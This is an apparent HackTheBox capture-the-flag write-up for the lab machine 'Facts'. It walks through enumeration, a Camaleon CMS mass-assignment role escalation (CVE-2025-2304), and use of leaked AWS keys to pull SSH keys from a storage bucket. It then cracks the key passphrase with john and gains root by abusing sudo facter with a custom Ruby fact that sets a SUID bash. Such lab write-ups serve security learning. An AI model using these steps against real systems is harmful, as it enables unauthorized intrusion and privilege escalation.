


# HackTheBox: Facts Writeup

Welcome to my writeup for the HackTheBox machine **Facts**. This was a relatively simple box, but it still had a few interesting twists and turns that kept me engaged. Let’s dive into the journey!

---

## Initial Enumeration

I started with an `nmap` scan on all ports to see what services were running on the target machine. Here’s the command I used:

```bash
nmap -p- -sV facts.htb
```

The results revealed three open ports:

- **22/tcp**: OpenSSH 9.9p1
- **80/tcp**: nginx 1.26.3
- **54321/tcp**: Golang net/http server

The port `54321` caught my attention as it was a bit unusual. Upon further investigation, I discovered that it redirected to port `9001`, which was inaccessible. This hinted at an internal service.

---

## Web Enumeration

Navigating to the main website on port `80`, I found a page displaying "amazing facts." Using `feroxbuster`, I enumerated the site further and stumbled upon an admin login page at `http://facts.htb/admin/login`. Surprisingly, I was able to create an account and access the admin panel. Here’s a screenshot of the panel:



The panel didn’t seem very functional at first glance, but I noticed it was running **Camaleon CMS 2.9.0**. A quick search for vulnerabilities led me to the [GitHub changelog](https://github.com/) for version 2.9.1, which mentioned a **Privilege Escalation through Mass Assignment** vulnerability (CVE-2025-2304). This vulnerability allowed users to escalate their privileges by modifying the `role` attribute.

---

## Exploiting the Vulnerability

The vulnerability was in the `updated_ajax` method of the `UsersController`. It used the dangerous `permit!` method, which allowed all parameters to pass unchecked. By adding `&password%5Brole%5D=admin` to the password update request, I was able to escalate my privileges to an admin. Here’s a screenshot of the proof of concept:



---

## AWS Credentials

As an admin, I accessed the CMS configurations and found AWS credentials:

- **Access Key**: `AKIA1A17EB173D669BE6`
- **Secret Key**: `c35E8ZWaHDvHAKf82exZ1jkbLzFTMoCyJIn3wqW9`
- **Bucket Name**: `randomfacts`
- **Region**: `us-east-1`
- **Endpoint**: `http://facts.htb:54321`

Using these credentials, I listed the available S3 buckets with the following command:

```bash
aws s3api list-buckets --endpoint-url http://facts.htb:54321
```

The output revealed two buckets: `randomfacts` and `internal`. While the `randomfacts` bucket contained uninteresting images, the `internal` bucket was far more intriguing. It contained private SSH keys!

---

## Accessing the Machine

I downloaded the private SSH key from the `internal` bucket:

```bash
aws s3 cp s3://internal/.ssh/ . --recursive --endpoint-url http://facts.htb:54321
```

The key was password-protected, so I used `ssh2john` to extract the hash and cracked it with `john` using the `rockyou.txt` wordlist:

```bash
ssh2john ssh/id_ed25519 > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

After a few moments, the password was revealed: `dragonballz`. However, I initially assumed the username was `minio`, which turned out to be incorrect. Using `ssh-keygen`, I extracted the correct username from the key:

```bash
ssh-keygen -y -f ssh/id_ed25519
```

The username was `trivia`. With this information, I successfully logged into the machine:

```bash
ssh trivia@facts.htb -i ssh/id_ed25519
```

---

## Privilege Escalation

Once inside, I noticed the `user.txt` flag was located in `/home/william`. Checking my `sudo` privileges revealed the following:

```bash
sudo -l
```

```plaintext
User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

The `facter` tool allows users to retrieve system information, and it supports custom facts written in Ruby. This was the perfect opportunity to exploit it for privilege escalation. I created a custom fact to copy `/bin/bash` to `/home/trivia/bd` and set the SUID bit:

```ruby
# /tmp/facts/privesc.rb
Facter.add('privesc') do
  setcode do
    Facter::Core::Execution.execute('cp /bin/bash /home/trivia/bd; chmod +s /home/trivia/bd')
  end
end
```

I then executed the custom fact with:

```bash
sudo facter --custom-dir /tmp/facts/ privesc
```

This successfully created a SUID bash binary. Running `bash -p` granted me root access, and I was able to retrieve the `root.txt` flag.

---

## Conclusion

This box was a fun and straightforward challenge. The initial enumeration and privilege escalation were fairly direct, but I did encounter minor hiccups, such as identifying the correct username and realizing that `/tmp` was mounted with `nosuid`. These small lessons reinforced the importance of thoroughness, even in simpler boxes.

Thanks for reading, and happy hacking!